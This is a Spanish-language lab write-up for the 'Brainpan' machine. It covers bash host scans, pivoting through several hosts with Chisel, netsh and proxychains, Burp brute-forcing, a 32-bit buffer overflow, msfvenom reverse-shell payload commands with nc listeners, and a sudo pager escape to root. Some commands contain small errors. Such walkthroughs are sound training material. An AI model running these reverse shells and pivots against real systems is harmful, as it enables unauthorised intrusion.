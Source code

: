 ```yaml
---
title: "6. Brainpan"
description: "6. Brainpan"
pubDate: 2025-05-20
---
```


[5. Matrix 1](../5-matrix-1)

# Fase de reconocimiento

## Buscamos hosts en la red

Buscaremos host en red con un script en bash, usando vi

````
#!\dev\null

for i in $(seq 1 254); do
		timeout 1 bash -c "ping -c 10.10.0.$i" &>/dev/null && echo "[+] Host 10.0.0.$i - ACTIVE" &
		
done; wait
````

(Si no acepta traza icmp⬇ )

````
#!\dev\null

for i in $(seq 1 254); do
		for port in 21 22 80 443 445 8080; do
				timeout 1 bash -c "echo '' > /dev/tcp/10.10.0.$i/$port" &>/dev/null && echo "[+] Host 10.0.0.$i - ACTIVE - PORT $port" &
		done
		
done; wait
````

## Pivoting con Chisel

https://github.com/jpillora/chisel
Chisel creará un tunnel entre el chisel servidor y el/los cliente/s trayendo puertos.
Para poder utilizar la maquina atacante todo el rato.

1. Copiamos chisel en la maquina Aragog

````
scp chisel root@<ip5>:/tmp/chisel
````

2. Nos conectamos al servidor

````
./chisel client <ip4>:8787 R:5522:socks
````

Esto abrirá un tunel por la 5522 con la red del cliente
4. Con netsh (Windows) en Dumbledore lo redirigimos a Nagini

````
netsh interface portproxy add v4tov4 listenport=8787 listenaddress:0.0.0.0 connectport=8788 connectaddress=<ip2>
````

Esto abrirá un túnel por la 9999 con la red del cliente
5. Con el proxy "proxychains" configuramos el archivo "proxychains.conf"

````
# strict_chain
Deshasteamos dynamic_chain
add abajo:
    socks5 127.0.0.1 5522
	socks5 127.0.0.1 9999
	socks5 127.0.0.1 8888
	socks5 127.0.0.1 1080
````

Ahora para ejeuctar comandos en 'ip5' con proxycahins -comando-

## Buscar puertos

````
proxychains nmap -sT -Pn --top-ports 500 -open -T5 -v -n <ip6> 2>/dev/null
````

Buscaremos puertos con la ayuda de xargs para agilizar el escaneo

````
seq 1 65535 | xargs -P 500 -I {} proxychains nmap -sT -Pn -p{} -open -T5 -v -n <ip6> 2>&1 | grep "tcp open"
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425011947.png)

## FoxyProxy

Para poder ver la web añadimos un proxy en el navegador con FoxyProxy con el puerto 5522

## whatweb

````
proxychains whatweb http://<ip6>:10000
````

## Burpsuite para fuerza bruta

### Configuración de proxy

Añadimos la proxy 5522
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425012723.png)

## Enumerar directorios por fuerza bruta

1. Interceptamos la web
1. Con el Intruder añadimos en el directorio donde queremos aplicar fuerza bruta
   ![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425013330.png)
1. Configuramos el Payload con el diccionario:
   /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
1. Start attack
   ![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425013521.png)

Este directorio contiene un binario con el programa que utiliza el puerto 9999

Para ver el programa del puerto 9999:

````
proxychains nc <ip6> 9999
````

# Fase de ataque

## Buffer Overflow

Como es un binario de 32 bits lo debbugearemos con Windows 7 23 bits

1. Nos compartimos el binario al Windows 7

````
python3 -m http.server 80
````

2. Lo ejecutamos y aceptamos todo
2. Nos descargamos e instalamos en Windows Immunity Debugger https://www.immunityinc.com/products/debugger/ y registramos el binario
2. Conectamos al servicio

````
nc <ipwin> 9999
````

Al enviar una cantidad de "A" elevada el programa explota, por lo que nos podemos aprovechar para un buffer overflow

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425210111.png)
5. Creamos un patrón para localizar donde explota el programa quedándose en el EIP

````
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425210538.png)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425210554.png)
6. Buscamos el número del EIP para buscar la cantidad de "A" necesarias para sobrescribir el EIP

````
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x35724134
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425210816.png)
La cantidad son 524
7. Podemos observar que el ESP es la continuación del EIP
8. Con "miona" detectamos que el x00 es un bad chart, lo quitamos
9. Creamos un exploit para conseguir ejecutar el codigo para una revershell
1. Creamos el shellcode

````
msfvenom -p windows/shell_reverse_tcp LHOST=<ip6> LPORT=443 --platform windows -a x86 -e x86/shikata_ga_nai -f c -b "\x00" EXITFUNC=thread 
````

    2. Creamos el script
    

\*\*![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425215746.png)
10. Con socat preparamos para redirigir el trafico
11. Nos ponemos en escucha

````
rlwrap nc -nlvp 443
````

12. Lanzamos el exploit

````
proxychains python3 exploit.py
````

\[-\] ==pwned!==

# Privilege Escalation

1. Creamos otro exploit pero para Linux ya que tiene un subsistema Linux dentro del Windows
   1. Creamos el shellcode

````
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip6> LPORT=443 -f c -b "\x00" EXITFUNC=thread 
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240425220603.png)
2. Nos ponemos en escucha

````
rlwrap nc -nlvp 443
````

3. Lanzamos el exploit

````
proxychains python3 exploit.py
````

Colocamos la terminal

## Hacerse root

Miramos privilegios

````
sudo -l
````

Tenemos un comando que al lanzarlo contiene un manual
Lanzamos el manual y se lanza en modo paginated
Escribimos !/bin/bash
\[+\] ==pwned!==

# Técnicas Utilizadas

Web Enumeration - BurpSuite Intruder Attack (Due to certain timeout problems using multiple proxies)
EXE Binary Analysis - Immunity Debugger (Buffer Overflow x32 Stack Based)
EXTRA: Playing with netsh to control connection flow in Windows
EXTRA: Reverse shell going through 4 machines using 4 SOCKS proxies
